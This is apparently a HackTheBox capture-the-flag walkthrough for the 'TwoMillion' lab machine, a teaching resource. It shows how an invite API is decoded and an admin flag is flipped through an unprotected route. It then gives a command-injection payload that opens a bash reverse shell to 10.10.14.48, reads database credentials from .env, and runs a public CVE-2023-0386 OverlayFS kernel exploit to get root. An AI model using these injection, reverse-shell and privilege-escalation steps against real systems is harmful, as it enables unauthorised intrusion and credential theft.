






# TwoMillion HackTheBox WalkThrough


As always, we begin by scanning all TCP ports.

```
nmap -p- -sS --min-rate 5000 -Pn -n 10.129.181.190

Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:24 CEST
Nmap scan report for 10.129.181.190
Host is up (0.040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```

The open ports on the machine are `22` and `80`. Let’s check what services are running on them.

```
nmap -p 22,80 -sVC --min-rate 5000 10.129.181.190 -oN services.nmap

Starting Nmap 7.93 ( https://nmap.org ) at 2024-09-28 14:27 CEST
Nmap scan report for 10.129.181.190
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

Since there’s a web service on port `80`, we will try to detect what technologies it’s using.

```
whatweb 10.129.181.190

http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
ERROR Opening: http://2million.htb/ - no address for 2million.htb
```

We get an error because it cannot resolve the domain `2million.htb`. To link this domain to the machine’s IP, we need to add the line `[ip] 2million.htb` to the `/etc/hosts` file.

```
echo "10.129.181.190 2million.htb" >> /etc/hosts
```

Now, we can run the command again.

```
whatweb 10.129.181.190

http://10.129.181.190 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.129.181.190], RedirectLocation[http://2million.htb/], Title[301 Moved Permanently], nginx
http://2million.htb/ [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], Email[info@hackthebox.eu], Frame, HTML5, HTTPServer[nginx], IP[10.129.181.190], Meta-Author[Hack The Box], Script, Title[Hack The Box :: Penetration Testing Labs], X-UA-Compatible[IE=edge], YouTube, nginx
```

We receive some information that, while not useful at the moment, might be later.

Upon visiting the page, we notice it’s the old page of `HackTheBox`.



In the past, to register on this platform, you had to hack the page itself. So, let’s go to the `Join HTB` section.



Inside, we see an `Invite Code` field. Let’s look at the source code of the `/invite` page.

```html
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
<script defer>
    $(document).ready(function() {
        $('#verifyForm').submit(function(e) {
            e.preventDefault();

            var code = $('#code').val();
            var formData = { "code": code };

            $.ajax({
                type: "POST",
                dataType: "json",
                data: formData,
                url: '/api/v1/invite/verify',
                success: function(response) {
                    if (response[0] === 200 && response.success === 1 && response.data.message === "Invite code is valid!") {
                        // Store the invite code in localStorage
                        localStorage.setItem('inviteCode', code);

                        window.location.href = '/register';
                    } else {
                        alert("Invalid invite code. Please try again.");
                    }
                },
                error: function(response) {
                    alert("An error occurred. Please try again.");
                }
            });
        });
    });
</script>
```

At first glance, there’s nothing interesting, but there is more code in external files, like the script at `/js/inviteapi.min.js`.

```javascript
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

We see obfuscated code, a technique used to make code unreadable. To deobfuscate it, we can simply pass the code to **ChatGPT** and ask for the unobfuscated version. The result is the following.

```javascript
function verifyInviteCode(code) {
    var formData = { "code": code };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response);
        },
        error: function(response) {
            console.log(response);
        }
    });
}
```

In the `makeInviteCode` function, we can see a path `/api/v1/invite/how/to/generate`. This looks interesting, so let’s make a request using curl.

```
curl -sX POST 2million.htb/api/v1/invite/how/to/generate | jq

{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}
```

In the `data` field, there seems to be a message encrypted with `ROT13`, which involves moving all letters 13 positions in the alphabet. To quickly decrypt the message, we can use [rot13.com](https://rot13.com).

The decrypted `data` field says "In order to generate the invite code, make a POST request to /api/v1/invite/generate".

```
curl -sX POST 2million.htb/api/v1/invite/generate | jq

{
  "0": 200,
  "success": 1,
  "data": {
    "code": "R1c0NlItMUhWUkItNDFNQVktT0YzUTc=",
    "format": "encoded"
  }
}
```

The code field contains a `base64` string, likely the `Invite Code`, so let's decode it and check it.

```
echo -n "UlFZMkEtOUo2TDEtSU1NN0wtWDJWWlU=" | base64 -d; echo

RQY2A-9J6L1-IMM7L-X2VZU
```



After providing the successful code, we are redirected to a registration panel. We will enter any credentials and then log in with them.





After logging in, we reach the main page.



We do not find anything vulnerable on the page, so we will investigate the API used earlier.

```
curl -v http://2million.htb/api

*   Trying 10.129.181.190:80...
* Connected to 2million.htb (10.129.181.190) port 80 (#0)
> GET /api HTTP/1.1
> Host: 2million.htb
> User-Agent: curl/7.88.1
> Accept: */*
> 
< HTTP/1.1 401 Unauthorized
< Server: nginx
< Date: Sun, 29 Sep 2024 10:05:59 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Set-Cookie: PHPSESSID=gfovc1g53rll77brnk4k03tadc; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< 
* Connection #0 to host 2million.htb left intact
```

Running a `curl -v` to the API gives us a 401 Unauthorized code, so we can try using the cookie obtained from logging in.

```
curl -s http://2million.htb/api -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "/api/v1": "Version 1 of the API"
}
```

It gives us the `/api/v1` path, so let's make a request to it.

```
curl -s http://2million.htb/api/v1 -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

We receive a bunch of routes, and those related to `admin` stand out to us.

First, let's check if we are administrators.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": false
}
```

As expected, we are not administrators.

The `/api/v1/admin/settings/update` route has the description `"Update user settings"`, which seems interesting since, if unprotected, we might be able to change user parameters, such as whether we are `admin` or not.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

It tells us that the data type we are sending via PUT is invalid, so let's try JSON.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d "{}" | jq

{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Now it says the email field is missing, so let's add the email we used to register on the site.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com"}' | jq

{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

It asks for the `is_admin` field, so let's try giving it the value `true`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": "true"}' | jq

{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```

Since it says it can only be 0 or 1, we deduce that 1 would be equivalent to `true` and 0 to `false`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": 1}' | jq

{
  "id": 13,
  "username": "delo",
  "is_admin": 1
}
```

We don’t get a conclusive response, so let’s check if we are now admins by making another request to `/api/v1/admin/auth`.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": true
}
```

The API responds that we are administrators. This might allow us to access other API routes that were previously restricted, such as `/api/v1/admin/vpn/generate`.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

We again receive the invalid content type error, so once more, let's pass the data in JSON format.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Let’s provide any username, for example, the one we used to register.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo"}'

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"
auth SHA256
key-direction 1
<ca>
-----BEGIN CERTIFICATE-----
...more vpn...
```

It generates a **VPN** configuration file using **OpenVPN**, likely using a method like `system` (which executes shell commands from PHP). It's probably something like this:

```php
<?php
system("Command-to-generate-vpn -x " . $nuestro_input . " --parametro");
?>
```

This code is not sanitized, meaning we could exploit certain special characters to introduce a malicious command. For example:

If we send the JSON `{"username": "delo; whoami #"}`, the php resulting line will be the following.

```php
<?php
system("Command-to-generate-vpn -x delo; whoami # --parametro");
?>
```

In bash:

```bash
Command-to-generate-vpn -x delo; whoami # --parametro
```

In this line, the `Command-to-generate-vpn` would be executed first, but when reaching the `;`, bash will consider that line as finished and execute what is right after: the command `whoami`.

Additionally, to ensure there is nothing on the right that could modify the behavior of the command we want to execute, we will place a `#` to comment out the rest of the line, which will make bash completely ignore it.

Let’s try this in the API.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; whoami #"}'

www-data
```

The username field is vulnerable to code injection. It didn’t show the VPN because it likely encountered an error, as it skipped the last arguments we've mentioned, and the `system()` function does not return `stderr` responses.

Since we have remote command execution, we will establish a **reverse shell** to operate more comfortably.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo; bash -c \"bash -i >& /dev/tcp/10.10.14.48/1234 0>&1\" #"}'
```

We listen using **netcat**.

```
nc -lnvtp 1234

listening on [any] 1234 ...
connect to [10.10.14.48] from (UNKNOWN) [10.129.181.190] 50890
bash: cannot set terminal process group (1098): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

Once the reverse shell connects, we will make the TTY treatment to work more comfortably (this is optional but highly recommended).

```
script /dev/null -c bash
```

Press `ctrl`+`z`

```
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Let's start by listing the files in the web directory.

```
ls -la

total 56
drwxr-xr-x 10 root root 4096 Sep 29 11:00 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Sep 29 11:00 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

We see the `.env` file, where environment variables are stored (usually database keys or other sensitive data).

```
cat .env

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

We have credentials for a database. Let’s check which users are on the machine to see if the credentials are reused.

```
grep -e "sh$" /etc/passwd

root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```

There is a user `admin`, the same as in the database, so let’s try to authenticate with the database password.

```
su admin

Password: SuperDuperPass123
```

The password is correct, and now we can view the `user.txt`.

```
cd
cat user.txt
```

While reviewing the mails in the `/var/mail` directory, we find an email that provides valuable information.

```
cat /var/mail/admin

From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: goblin <g@blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

In the email, admin is told that the operating system needs to be updated due to some Linux kernel vulnerabilities, especially the one related to `OverlayFS FUSE`.

After a Google search, we found an article that explains how it works. You can take a look [here](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386).

---

### Explanation

*In short, it says that in kernel versions prior to `6.2`, when copying a file from an `overlay` mount to the `upper` directory, it does not check if the owner of the file belongs to the current machine. Therefore, if we pass a file with `uid=0` (User ID), even if the root of the machine is not the owner, it will be copied to the `upper` with the actual machine's root as the owner. To take advantage of this we will create a malicious script with `suid` bit (which allows to execute code as the owner of the file even if you are not)*

*To create a file with `uid=0` without being root, we need to use a virtual file system like **FUSE**. With this, we can simulate a file with `uid=0` and `gid=0` (Group ID).*

*To understand this better, it would be helpful to look up information on how **OverlayFS** and **FUSE** work.*

---

```
uname -r

5.15.70-051570-generic
```

The kernel version is lower than `6.2`, so we can try to exploit the vulnerability. Let’s clone an exploit from **GitHub**.

```
git clone https://github.com/sxlmnwb/CVE-2023-0386
```

To transfer it to the victim machine, we will first zip it.

```
zip -r cve.zip CVE-2023-0386
```

Start an HTTP server in python on port 80.

```
python3 -m http.server 80
```

Then, download it to the victim machine, unzip it, and compile it.

```
wget 10.10.14.48/cve.zip
unzip cve.zip
cd CVE-2023-0386
make all
```

As it is explained in the `README.md`, we execute `fuse` in the background (with `&` at the end of the command) and then `exp`.

```
./fuse ./ovlcap/lower ./gc &
./exp
```

Now we are **root**, and we can read the `root.txt`.

```
cd /root
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.